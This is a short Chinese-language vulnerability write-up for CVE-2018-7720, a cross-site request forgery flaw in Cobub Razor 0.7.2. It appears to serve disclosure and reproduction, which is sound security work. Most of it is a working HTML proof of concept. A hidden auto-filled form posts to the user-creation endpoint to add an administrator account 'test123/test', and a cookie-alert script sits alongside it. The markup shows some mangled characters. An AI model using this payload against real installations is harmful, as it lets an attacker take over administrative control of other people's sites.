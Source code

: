 （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞
=======================================================

一、漏洞简介
------------

Cobub Razor
0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。

二、漏洞影响
------------

Cobub Razor 0.7.2

三、复现过程
------------

### POC

    <body>
      <script>alert(document.cookie)</script>
        <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
          <input type="hidden" name="username" value="test123" />
          <input type="hidden" name="email" value="test&#64;test123&#46;test" />
          <input type="hidden" name="password" value="test" />
          <input type="hidden" name="confirm&#95;password" value="test" />
          <input type="hidden" name="userrole" value="3" />
          <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
